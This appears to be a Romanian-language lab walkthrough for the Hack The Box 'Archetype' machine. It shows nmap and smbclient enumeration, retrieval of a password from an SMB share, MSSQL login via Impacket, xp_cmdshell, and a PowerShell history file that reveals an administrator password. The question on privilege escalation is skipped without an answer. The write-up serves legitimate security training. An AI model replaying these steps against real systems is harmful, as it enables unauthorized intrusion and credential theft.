 1. Which TCP port is hosting a database server?
Cu un scan cu instrumentul [[nmap]] verificam care porturi sunt deschise si care sunt inchisi si o sa putem raspunde la prima intrebare.
```bash
sudo nmap -sVC -T4 -p- <IP> -oN archetype_scan
```
![[Pasted image 20230907155446.png]]
Raspunsul este `1433`
Aici este atasat scanarea de la [[nmap]] 
![[archetype_nmap_scan]]
2. What is the name of the non-Administrative share available over SMB?
Trebuie sa vedem care directori sunt disponibile in sistemul nostru acesta poate rezolvata cu instrumentul [[smbclient]] si cu flagul `-L` care trebuie sa ne returneze o lista de directoare.
```bash
smbclient -L <IP>
```
![[Pasted image 20230907155830.png]]
Raspunsul este `backups`
3. What is the password identified in the file on the SMB share?
Acum avem nevoie sa ne conectam la directoriul care a fost gasit de noi anterior acesta poate fii executat prin comanda:
```bash
smbclient "\\\\<IP>\backups"
```
![[Pasted image 20230907161406.png]]
Dupa ce am suntem in folderul care lam gasit putem vedea ce este in directoriul `backups`
cu un singur [[ls]] care este si in linux ne va arata continutul directoriului in care suntem.
Vedem ca avem un fisier care are denumirea de `prod.disConfig`.
Dar cum sa vedem ce este in fisierul dat. Trebuie sa fie descarca la noi pe masina si deja o sa putem vedea care este continutul acestuea. Cu comanda `get prod.disConfig` descarcam fisierul dat. 
![[Pasted image 20230907162224.png]]
Raspunsul la intrebare este `M3g4c0rp123`
4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?
![[Pasted image 20230907163638.png]]
Raspunsul la intrebare este `mssqlclient.py`
5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
Pentru a raspunde la intrebarea data trebuie sa ne conectam la mssql cu ajutorul sriptului care lam gasit pe git ne va ajuta comanda [[curl]]
```bash
curl -O https://raw.githubusercontent.com/fortra/impacket/master/examples/mssqlclient.py
```
Rulam scriptul pentru a ne conecta:
```bash
python3 mssqlclient.py sql_svc:M3g4c0rp123@10.129.28.201 -windows-auth
```
Unde:
`sql_svc` - Username
`M3g4c0rp123` - Password
`10.129.28.201` - IP
Acum putem face un help pe serverul nostru pentru a vedea comenzile care ne pot fii utile.
![[Pasted image 20230907171349.png]]
Raspunsul la intrebarea este `xp_cmdshell`
6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?




PS C:\Users\sql_svc\Downloads> Get-Content C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt  
Get-Content C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt  
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!  
exit

Finisul 
